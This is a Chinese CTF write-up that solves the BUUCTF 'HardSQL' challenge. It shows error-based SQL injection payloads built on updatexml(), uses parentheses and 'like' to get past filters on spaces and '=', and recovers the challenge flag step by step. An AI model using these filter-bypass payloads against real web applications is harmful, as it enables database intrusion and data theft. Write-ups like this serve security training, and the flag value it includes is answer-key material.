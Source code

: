# T9 hardsql

> 题目：BUUCTF [极客大挑战 2019]HardSQL

__0x00 审题__

没想到这个系列还没完

```
没错，又是我，这群该死的黑客竟然如此厉害，所以我回去爆肝SQL注入，这次，再也没有人能拿到我的flag了！
```

尝试弱口令无果，尝试万能密码，和注点检测，都会得到：

```
你可别被我逮住了，臭弟弟
```

进而猜测全部被过滤

__0x01 解题__

1. 找到被过滤的东西
> burpsuite抓包：发现空格，and，注释符，/，= 等都被过滤（就是之前见过的都没法用了，大写双写也不行的那种）

2. 新的方法，两个问题
***
* 问题一：如何解决过滤问题

> 空格被过滤一般可采用:/**/
> 但是本题已经过滤了

<u>所以考虑用()代替空格</u>

> 解释:在MySQL中，括号是用来包围子查询的。因此，任何可以计算出结果的语句，都可以用括号包围起来。而括号的两端，可以没有多余的空格。(括算式)


<u>考虑用like替换等号</u>

操作显示：

```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '(or)(1like1)#'' at line 1
```
***
* 问题二：注入报错

> 函数：floor()，extractvalue()，updatexml()

关于updatexml()：作用是更新xml()，原理就是他的Xpath路径出错，就会返回他出错的路径，从而达到我们找数据的目的

> 注：[相关链接](https://www.xiinnn.com/article/f88283cc.html)

***

3. 问题解决，开始实操

输入：
```
'or(updatexml(1,concat(0x7e,database()),1))#  (0x7e是~,不属于xpath格式所以报错）
```
返回得到数据库：
```
XPATH syntax error: '~geek'
```

然后查表：
```
'or(updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like(database()))),1))#
```
返回：
```
XPATH syntax error: '~H4rDsq1'
```

查字段：
```
'or(updatexml(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name)like('H4rDsq1'))),1))#
```
不出所料，三个字段：
```
XPATH syntax error: '~id,username,password'
```

找数据：
```
'or(updatexml(1,concat(0x7e,(select(group_concat(id,'~',username,'~',password))from(H4rDsq1)),0x7e),1))#
```

就报半边：
```
XPATH syntax error: '~1~flag~flag{7e4d393a-0209-4f3e-'
```

> 不全咋办？

```
关于函数right()与left():
right():从右开始提取多个字符
句法：RIGHT(string, number_of_chars)
left()同理
```

try:

```
'or(updatexml(1,concat(0x7e,(select(right(password,30))from(H4rDsq1)where(username)like('flag'))),1))#
```

get!!

```
XPATH syntax error: '~a-0209-4f3e-8032-11858e18c76e}'
```

__0x02 答案__

合并一下就行

__0x03 总结__

1. 关于更多的绕过方法：空格的绕过，等号的绕过
2. 关于注入报错，我的理解通过上述几个函数的自身特点通过人为构造错误，从而获得数据


